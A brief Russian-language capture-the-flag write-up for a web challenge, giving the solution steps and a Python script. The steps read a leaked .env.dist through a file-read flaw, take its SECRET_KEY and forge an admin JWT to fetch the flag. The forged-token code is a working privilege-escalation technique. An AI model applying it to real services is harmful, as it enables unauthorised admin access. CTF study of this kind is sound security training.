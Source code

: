 #hard #web #JWT #FS

#### Решение
- Через уязвимость в получение файлов достаем .env.dist
- Из .env.dist достаем SECRET_KEY и на его основе генерим JWT с админсским доступом
- Под админом дергаем апиху на получение флага

#### Код генерации JWT

```python
from jose import jwt

SECRET_KEY = "713c50ce0a4902af7571debb36dd14abd95a45c9104b299b1f91afd52f356e47"
ALGORITHM = "HS256"

payload = {
"exp": "1745341191",
"iat": "1745254791",
"user_id": "faf49c98-0cab-4af4-b917-b0c96a710938",
"username": "admin_kek",
"is_admin": True,
}

token = jwt.encode(payload, SECRET_KEY, algorithm=ALGORITHM)
print(token)
```

#### Скрины

![[Pasted image 20250421234519.png]]

![[Pasted image 20250421233711.png]]
![[Pasted image 20250421234219.png]]
![[Pasted image 20250421234231.png]]
![[Pasted image 20250421234244.png]]
![[Pasted image 20250421234304.png]]
![[Pasted image 20250421234317.png]]
![[Pasted image 20250421234328.png]]
![[Pasted image 20250421234338.png]]
